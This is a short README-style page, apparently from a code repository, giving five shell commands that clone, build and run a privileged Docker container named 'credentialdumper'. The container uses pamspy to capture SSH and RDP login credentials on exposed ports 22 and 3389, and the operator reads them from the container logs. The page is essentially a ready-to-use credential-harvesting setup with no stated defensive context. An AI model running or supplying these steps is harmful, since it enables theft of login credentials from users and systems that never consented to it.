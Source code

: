 # SSH/RDP credential dumping (using pamspy)

1. git clone https://github.com/retalieight/docker-credentialdumper.git
2. cd docker-credentialdumper
3. docker build -t retali8/credentialdumper:latest .
4. docker run --privileged -d --name credentialdumper --restart=unless-stopped -p 22:22 -p 3389:3389 retali8/credentialdumper
5. docker logs credentialdumper -f
